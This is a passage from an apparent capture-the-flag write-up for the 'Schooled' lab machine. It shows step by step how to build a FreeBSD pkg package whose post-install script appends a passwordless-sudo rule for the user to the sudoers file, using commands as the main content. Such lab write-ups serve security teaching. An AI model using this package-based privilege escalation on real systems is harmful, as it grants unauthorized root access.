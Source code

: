 In practice this creates the metadata files that Schooled was requesting
when it ran `pkg update` and `pkg install`.

Because I need access to `pkg`, I could create a FreeBSD VM, or I could
just work from a staging directory on Schoool. I'll do the latter.

#### Generate Package

I'll create a staging directory to work from:



    jamie@Schooled:/var/tmp $ mkdir .0xdf



I tried a couple ways to get a shell as root, but the one that
ultimately ended up working was to write to the `sudoers` file:



    jamie@Schooled:/var/tmp/.0xdf $ cat > +POST_INSTALL <<EOF
    > echo "jamie ALL=(ALL) NOPASSWD: ALL" >> /usr/local/etc/sudoers
    > EOF



Next the manifest file, using the template from the blog post (many of
these fields are probably not necessary):



    jamie@Schooled:/var/tmp/.0xdf $ cat > +MANIFEST <<EOF
    name: "0xdf"
    version: "1.0_5"
    origin: sysutils/0xdf
    comment: "0xdf was here"
    desc: "moar root plz"
    maintainer: 0xdf@schooled.htb
    www: https://0xdf.gitlab.io
    prefix: /
    EOF



Create the config file and `plist`:



    jamie@Schooled:/var/tmp/.0xdf $ mkdir -p usr/local/etc
    jamie@Schooled:/var/tmp/.0xdf $ echo "# nothing to see here" > usr/local/etc/0xdf.conf
    jamie@Schooled:/var/tmp/.0xdf $ echo "/usr/local/etc/0xdf.conf" > plist



Now I'll create the package with `pkg create` which generates
`0xdf-root-1.0_5.txz`:



    jamie@Schooled:/var/tmp/.0xdf $ pkg create -m /var/tmp/.0xdf/ -r /var/tmp/.0xdf/ -p /var/tmp/.0xdf/plist -o .
    jamie@Schooled:/var/tmp/.0xdf $ ls
    +MANIFEST       +POST_INSTALL   0xdf-1.0_5.txz  plist           usr
